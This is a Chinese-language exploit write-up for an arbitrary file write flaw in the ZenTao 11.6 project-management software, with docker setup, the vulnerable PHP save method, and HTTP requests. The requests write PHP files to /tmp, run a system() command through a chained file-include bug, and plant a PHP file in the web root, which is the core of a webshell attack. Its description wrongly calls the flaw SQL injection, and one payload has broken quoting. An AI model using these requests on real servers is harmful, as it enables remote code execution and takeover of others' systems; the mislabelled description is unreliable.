

# 禅道 11.6 api-getModel-editor-save-filePath 任意文件写入漏洞

## 漏洞描述

禅道 11.6 版本中对用户接口调用权限过滤不完善，导致调用接口执行SQL语句导致SQL注入

## 影响版本

<a-checkbox checked>禅道 11.6</a-checkbox></br>

## 环境搭建

<a-checkbox checked>这里使用docker环境搭建</a-checkbox></br>

```plain
docker run --name zentao_v11.6 -p 8084:80 -v /u01/zentao/www:/app/zentaopms -v /u01/zentao/data:/var/lib/mysql -e MYSQL_ROOT_PASSWORD=123456 -d docker.io/yunwisdom/zentao:v11.6
```


## 漏洞复现


这里造成漏洞的原因同样是调用接口权限无限制的原因

接口出现漏洞的原因具体参考可以查看上一篇 `禅道 11.6版本 SQL注入漏洞` 关于此漏洞的完整分析

查看`module/api/ediyor/moudel.php`下的`save方法`

```php
public function save($filePath)
    {
        $fileContent = $this->post->fileContent;
        $evils       = array('eval', 'exec', 'passthru', 'proc_open', 'shell_exec', 'system', '$$', 'include', 'require', 'assert');
        $gibbedEvils = array('e v a l', 'e x e c', ' p a s s t h r u', ' p r o c _ o p e n', 's h e l l _ e x e c', 's y s t e m', '$ $', 'i n c l u d e', 'r e q u i r e', 'a s s e r t');
        $fileContent = str_ireplace($gibbedEvils, $evils, $fileContent);
        if(get_magic_quotes_gpc()) $fileContent = stripslashes($fileContent);

        $dirPath = dirname($filePath);
        $extFilePath = substr($filePath, 0, strpos($filePath, DS . 'ext' . DS) + 4);
        if(!is_dir($dirPath) and is_writable($extFilePath)) mkdir($dirPath, 0777, true);
        if(is_writable($dirPath))
        {
            file_put_contents($filePath, $fileContent);
        }
        else
        {
            die(js::alert($this->lang->editor->notWritable . $extFilePath));
        }
    }
```


`$filePath参数和$fileContent参数` 我们是可控的


调用方法往 `/tmp`写入一个`phpinfo()`


```plain
POST /api-getModel-editor-save-filePath=/tmp/shell.php

fileContent=<?php phpinfo();?>
```


在利用 禅道 11.6版本 任意文件读取漏洞 第二种方法来文件包含


```plain
/api-getModel-api-getMethod-filePath=/tmp/shell/1
```


也可以写入网站目录中


先获取地址


```plain
POST /api-getModel-editor-save-filePath=/tmp/shell

fileContent=<?php system('find / -name ioncube.php')?>');?>
```


访问 `/api-getModel-api-getMethod-filePath=/tmp/shell/1`


得到目录为 `/app/zentaopma/www`


请求改为


```plain
POST /api-getModel-editor-save-filePath=/tmp/shell

fileContent=<?php file_put_contents('/app/zentaopms/www/xxx.php', '<?php phpinfo();?>');?>
```

<a-alert type="success" message="再去访问 /api-getModel-api-getMethod-filePath=/tmp/shell/1，则会再网站目录下生成 xxx.php 文件" description="" showIcon>
</a-alert>
<br/>




